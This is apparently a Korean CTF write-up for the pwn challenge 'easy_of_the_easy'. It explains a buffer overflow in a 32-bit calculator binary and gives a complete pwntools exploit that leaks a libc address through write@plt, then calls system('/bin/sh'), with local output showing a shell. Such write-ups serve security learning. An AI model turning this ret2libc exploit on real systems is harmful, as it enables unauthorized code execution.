 ```yaml
---
layout: post
title: ! tmp "h3x0r CTF] easy_of_the_easy (pwn 300)
excerpt_separator: <!--more-->
tags:
  - CTF
  - Write-up
---
```


학기중에는 바빠서 H3x0r CTF에 참가하지 못했다. 그래서 종강한 뒤 여유가 생겨서 문제를 몇 개 풀어보고자 했다. 그런데 너무 오랫동안 포너블 문제를 풀지 않아서인가 계속 버벅대기에, 생각도 정리하고 나중에 참고할 수 있도록 블로그에 포스팅을 올리기로 결심하였다.

<!--more-->

> nc 49.236.136.140 14000
>
> [Download](https://h3x0r.kr/uploads/8/easy_of_the_easy)
>
> -Ho_9

문제가 매우 심플하다. 바이너리만 하나 던져준다.

> \#file easy_of_the_easy
>
> easy_of_the_easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=943b5012ebc31246a545435ea3a4336795a9bb8d, not stripped

확인해보면 32bit 바이너리인걸 알 수 있다.

분석해보면 단순한 계산기 프로그램이고, 일정 조건을 만족하면 special menu를 열어주어 BOF 취약점을 트리거할 수 있게 되어있다. canary도 안 걸려있다. (걸려있어도 해결 가능할 것 같긴 하지만) 문제 자체가 포너블의 sanity check 개념인듯 하다. wrtie, read함수가 보이니까 대충 BOF로 주소 leak 해서 쉘 따면 된다.

```python
from pwn import *

PROCESS = "./easy_of_the_easy"

First_gate_addr = 0x08048801
special_menu_addr = 0x080487a0
write_plt = 0x08048452
read_got = 0x0804a00c

r = process(PROCESS)

def main () :
	global system_addr
	global binsh_addr

	make_nbytes()
	r.recvuntil("Good Luck!")
	bof()

	data = r.recvline().strip()
	system_addr = u32(data) - 0x9ad60
	binsh_addr = system_addr + 0x120c6b

	log.info(hex(system_addr))
	log.info(hex(binsh_addr))
	
	givemeshell()

	r.interactive()

def make_nbytes() :
	r.sendline("1 245686 1")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("1 1 0")
	r.recvuntil("Menu")
	r.sendline("2 2 1")
	r.recvuntil("Menu")
	r.sendline("3 1 1")
	r.recvuntil("Menu")
	r.sendline("4 1 1")
	r.recvuntil("Menu")
	r.sendline("6")
	r.recvuntil("Menu")
	r.sendline("4 1 1") # go to hidden menu

def bof() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(write_plt)
	payload += p32(special_menu_addr)
	payload += p32(0x01)
	payload += p32(read_got)
	# payload += p32(0x08048b48) # good
	payload += p32(0x04)
	r.sendline(payload)

def givemeshell() :
	payload = "A"*18
	payload += "B"*4
	payload += p32(system_addr)
	payload += "C"*4
	payload += p32(binsh_addr)
	payload += "D"*20
	r.sendline(payload)

if __name__ == '__main__' :
	main ()
```

> root@ubuntu:~/CTF/h3x0r/easy_of_the_easy\# python local_exploit.py 
> [\+] Starting local process './easy_of_the_easy': pid 5203
> [\*] 0xf7d72da0
> [\*] 0xf7e93a0b
>
> [\*] Switching to interactive mode
>
> ==========================================
>
> ​            Secret           Way          
>
> ==========================================
>
> Good Luck!$ ls
>
> easy_of_the_easy  local_exploit.py
>
> $ 



bof 해줄때 32bit 오랜만이라 그런가.. write 함수 다음에 +@ ret 적어주는걸 까먹어서 이상한 오류가 뿜뿜!! 했다. 다음부터는 주의해야지.
